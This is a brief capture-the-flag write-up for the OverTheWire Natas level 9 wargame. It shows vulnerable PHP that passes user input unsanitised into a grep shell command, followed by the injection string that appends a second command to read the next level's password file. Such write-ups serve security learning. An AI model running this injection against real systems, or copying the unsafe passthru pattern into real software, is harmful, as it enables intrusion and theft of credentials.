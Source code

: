# Level 9

URL : http://natas9.natas.labs.overthewire.org



## Solution

we have the source code : 

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

## What ca we exploit ?

we can manipulate the input for the **`grep command`**, we know that the password for natas10 is in /etc/natas_webpass/natas10.  
since we control the input, we can do this:

we can input the following string : **|| cat /etc/natas_webpass/natas10 &&**

That's all! {Basic c0mand Injection}
